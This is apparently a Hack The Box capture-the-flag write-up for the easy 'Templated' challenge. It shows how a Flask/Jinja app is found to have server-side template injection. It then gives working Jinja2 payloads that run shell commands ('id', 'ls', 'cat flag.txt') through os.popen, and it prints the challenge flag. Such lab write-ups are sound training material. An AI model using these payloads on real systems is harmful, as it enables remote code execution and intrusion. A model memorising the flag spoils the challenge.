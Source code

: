 ![](assets/images/banner.png)



<img src="assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Templated</font>

​		2<sup>nd</sup> Febraury 2021

​		Challenge Author(s):clubby789

​		

 



### Description:

Can you exploit this simple mistake? 

### Objective

Finding the flag by exploiting the application. This application is vulnerable to **Server side template injection (SSTI).**

### Difficulty:

`easy`

### Flag:

`HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}`



# Challenge

Firstly we have to find what is the application vulnerable to. From the landing page it is clear that the application is built using Flask/Jinja. Lets check whether there are any exploits available for this application. I am using **Exploit-DB** to search for exploit.

I have found that this application can be vulnerable to **SSTI**.

![](assets/images/exploit.png) 

Let's check whether the application is vulnerable to **SSTI**.

We can check this by appending {{4*4}} to the url.

![](assets/images/SSTI-proof.png)

The application is vulnerable to **SSTI**. 

So lets find how can we use this exploit.

After some research on the internet I found a blog in which there are some scripts for injection. So I am using those scripts.

![](assets/images/script.png)

Lets use the script, ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}```

This gives the following output.

![](assets/images/run1.png)

From the output it is clear that uid's are returned. so lets modify the command in the script ```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```

The output is as follows.
![](assets/images/run2.png)

We can see that the list of files and directories is returned. One file among those files is interesting for us, the file is **flag.txt**

Now lets read the contents of the flag by using ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}```

The output is the the required flag. 

![](assets/images/flag.png)

The flag is: ```HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}```


Resources used:

`https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/`


